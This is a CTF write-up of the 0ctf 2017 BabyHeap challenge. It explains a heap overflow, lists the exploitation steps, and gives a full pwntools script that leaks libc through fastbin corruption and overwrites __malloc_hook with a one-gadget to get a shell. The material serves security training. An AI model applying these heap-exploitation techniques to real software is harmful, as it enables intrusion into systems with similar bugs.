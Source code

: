 # BabyHeap2017

## Binary

[babyheap](https://github.com/kimtruth/CTF-write-up/raw/master/0ctf%202017/BabyHeap2017/0ctfbabyheap)

## vulnerability Analysis

1. `Fill menu` can overwrite data over the range of chunks
2. However, we cannot see the leak through the `dump menu`


## Scenario

1. allocate five chunks. (0x10, 0x10, 0x10, 0x10, 0x80)
2. modify the fd value of 1st chunk to address of 4th chunk
3. modify the size value of 4th chunk to 0x21. (make fastbin fake chunk)
4. allocation
5. allocation (now 2nd, 4th chunk have same address)
6. restore the size value of 4th chunk.
7. allocation (for leak the libc address)
8. free 4th chunk (we can leak the main_arena+?? address from fd, bk values)
9. calculate libc base
10. we should write `__malloc_hook`
11. allocation (for 0x7f)
12. free (but 2nd chunk has its address)
13. modify fd values to fake chunk using 2nd chunk
14. allocation
15. allocation (fake chunk)
16. overwrite __malloc_hook with one_shot
17. allocation (__malloc_hook call)
18. FINISH

### solve.py
```python
from pwn import *

def alloc(size):
    r.sendline('1')
    r.sendlineafter(': ', str(size))
    r.recvuntil(': ')

def fill(idx, data):
    r.sendline('2')
    r.sendlineafter(': ', str(idx))
    r.sendlineafter(': ', str(len(data)))
    r.sendlineafter(': ', data)
    r.recvuntil(': ')

def free(idx):
    r.sendline('3')
    r.sendlineafter(': ', str(idx))
    r.recvuntil(': ')

def dump(idx):
    r.sendline('4')
    r.sendlineafter(':', str(idx))
    r.recvuntil(': \n')
    data = r.recvline()
    r.recvuntil(': ')
    return data

libc = ELF('./libc.so.6')
r = process('./0ctfbabyheap')

r.recvuntil(':')

alloc(0x10) # 0x00
alloc(0x10) # 0x20
alloc(0x10) # 0x40
alloc(0x10) # 0x60
alloc(0x80) # 0x80

free(2)
free(1)

# modify fd value
payload  = p64(0) * 3
payload += p64(0x21)
payload += p8(0x80)
fill(0, payload)

# modify size (for fastbins)
payload  = p64(0) * 3
payload += p64(0x21) # fastbins
fill(3, payload)

alloc(0x10)
alloc(0x10)

# restore size
payload  = p64(0) * 3
payload += p64(0x91)
fill(3, payload)

alloc(0x80)
free(4)

leak = u64(dump(2)[:8])

main_arena = leak - 0x58
libc.address = main_arena - 0x3c4b20

log.info('libc address : ' + hex(libc.address))
log.info('__malloc_hook : ' + hex(libc.symbols['__malloc_hook']))
log.info('chunk : ' + hex(libc.symbols['__malloc_hook'] - 0x23))


alloc(0x60)
free(4)

fill(2, p64(libc.symbols['__malloc_hook'] - 0x23)) # fd

alloc(0x60) # 5
alloc(0x60) # 6

payload  = '\x00' * 3
payload += p64(0) * 2
payload += p64(libc.address + 0x4526a) # one_shot
fill(6, payload)

alloc(1)

r.interactive()
```
